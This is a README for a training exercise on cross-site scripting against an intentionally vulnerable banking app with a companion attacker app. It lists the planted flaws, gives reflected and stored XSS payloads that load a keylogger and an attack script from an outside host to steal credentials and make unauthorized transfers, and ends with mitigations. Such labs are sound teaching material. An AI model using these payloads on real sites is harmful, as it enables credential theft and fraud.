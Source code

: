 # Exercise 2 - XXS 

XSS exercise to help ypu understand XSS and its mitigations

## Setup and Start Applications

1. check out exercise1 
   * from command line: 'git checkout exercise1'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app
   * woth maven command: 'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Search for XSS vulnerabilities

Hints:
* This app is a rather traditional multi page application with not much Ajax/Javascript magic. Therefore it is (mostly) susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping

Present vulnerabilities:
* page.tag template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping

##Exploit and understand
1. Test reflected XSS in login page. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
1. Exploit stored XSS in login page:
   * As Alice send Bob the login link with installs a keylogger by exploiting the vulnerability: 
     http://vbank.0.0.0.0.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.0.0.0.0.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger send each keystroke to the attack app, the logged keystrokes you can see at http://attack.0.0.0.0.xip.io:9090/viewlog (do not let the browser autofil the form! ...because there are no keystrokes then)
   * This way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Test stored XSS 
   * go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
   * then go to the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.
1. Exploit stored XSS
   * as Alice (alice / h1alice) you know Bob's account number (1-123456-11) and you will transfer him a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * The attack script is at http://attack.0.0.0.0.xip.io:9090/js/attack.js; use the method *transfer(formname, fromAccount, toAccount, amount, currency, action)* in the note. 
     * For example: `<script src="http://attack.0.0.0.0.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
      * Please transfer 1 CHF to Bob's account with the above note.
   * As Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the history page (by clickin on the account number) 
     * the malicious javascript (XSS) should be loaded from the database and executed
     * if you refresh the page you sould see the transaction
  
Mitigations:
  * validate input
  * encode text input (i.e. with HTML encoding)
  * sanitize text/HTML input (remove potentially dangerous char sequences)
  * escape output (replace control characters into renderable counterparts that are not interpreted as controls/commands by the parser)

  
